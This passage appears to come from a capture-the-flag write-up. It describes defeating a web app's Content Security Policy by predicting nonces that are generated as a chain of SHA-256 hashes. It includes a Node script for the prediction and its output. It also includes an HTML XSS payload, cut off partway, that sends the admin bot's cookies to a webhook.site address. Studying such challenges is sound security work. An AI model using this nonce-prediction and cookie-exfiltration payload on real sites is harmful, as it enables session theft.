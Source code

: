 I tried it and yes, that is exactly what happens each time. Our admin bot also opens the app in a fresh browser session, so let's predict the nonce and bypass CSP.

I borrowed the code for generating nonces and used it to generate the first 10 nonces.

```js
const crypto = require('crypto');

let nonce = '47baeefe8a0b0e8276c2f7ea2f24c1cc9deb613a8b9c866f796a892ef9f8e65d'

for (let i = 0; i < 10; i++) {
    nonce = crypto.createHash('sha256').update(nonce).digest('hex');
    console.log(nonce);
}
```

```
$ node generate.js
34dce4583c235ebfa8e06020ae7f81ccc0007b05baf6cca9c03ae07930c64b4f
f8c5a82d13fc3dd49597d4d292ab08f98c3a7845eb7268213ec6a0168fe3ce11
6cfa460c34d3b448767eb47edb9a73d03061e913cd8a7d712340ccdf8b342c36
6945898b2417e648bbd2ee586f1decc94017cb7ccac9230f443a8a9b63bbea86
322fe65fc25573af2aa1131d31f19b5faf50a85f94e7495b82772c969e06b9b5
03048a02e9aa1e1988dfe3b87ddd814abb2e461804055fa54137dd43bcf4b065
76fd489cba8add7424ef86c2a26e641d995c0e29c01871337386555d9d7f90f3
4fe17b3eab8571d602f3c0452033cf713dab845a34b2cd573f23db05033344c7
93af138c9d0fb8ad1c4ce6ea446bc0ab0f676ac7d823c00d4f2d6dbd42b645c7
e6a9d7a1c434b1deaab123b2eed806c4a319e832ba933b2a1135ff99b33d6aef
```

To determine which nonce we really need, we could count the requests our bot makes. For example, if it made a total of 3 requests after it navigated to our page, the fourth nonce is the one that should be able to bypass the CSP.

But I got lazy and my payload was this. 👍

```html
<script nonce="34dce4583c235ebfa8e06020ae7f81ccc0007b05baf6cca9c03ae07930c64b4f">
    location.replace("https://webhook.site/551d81d6-5ef8-4d06-8ebb-bb98d3ba584e/?cookie=" + document.cookie)
</script>
<script nonce="f8c5a82d13fc3dd49597d4d292ab08f98c3a7845eb7268213ec6a0168fe3ce11">
    location.replace("https://webhook.site/551d81d6-5ef8-4d06-8ebb-bb98d3ba584e/?cookie=" + document.cookie)
</script>
<script nonce="6cfa460c34d3b448767eb47edb9a73d03061e913cd8a7d712340ccdf8b342c36">
    location.replace("https://webhook.site/551d81d6-5ef8-4d06-8ebb-bb98d3ba584e/?cookie=" + document.cookie)
</script>
<script nonce="6945898b2417e648bbd2ee586f1decc94017cb7ccac9230f443a8a9b63bbea86">
    location.replace("https://webhook.site/551d81d6-5ef8-4d06-8ebb-bb98d3ba584e/?cookie=" + document.cookie)
</script>
<script nonce="322fe65fc25573af2aa1131d31f19b5faf50a85f94e7495b82772c969e06b9b5">
    location.replace("https://webhook.site/551d81d6-5ef8-4d06-8ebb-bb98d3ba584e/?cookie=" + document.cookie)
</script>
<script nonce="03048a02e9aa1e1988dfe3b87ddd814abb2e461804055fa54137dd43bcf4b065">
    location.replace("https://webhook.site/551d81d6-5ef8-4d06-8ebb-bb98d3ba584e/?cookie=" + document.cookie)
</script>
<script nonce="76fd489cba8add7424ef86c2a26e641d995c0e29c01871337386555d9d7f90f3">
    location.replace("https://webhook.site/551d81d6-5ef8-4d06-8ebb-bb98d3ba584e/?cookie=" + document.cookie)
</script>
<script nonce="4fe17b3eab8571d602f3c0452033cf713dab845a34b2cd573f23db05033344c7">
```
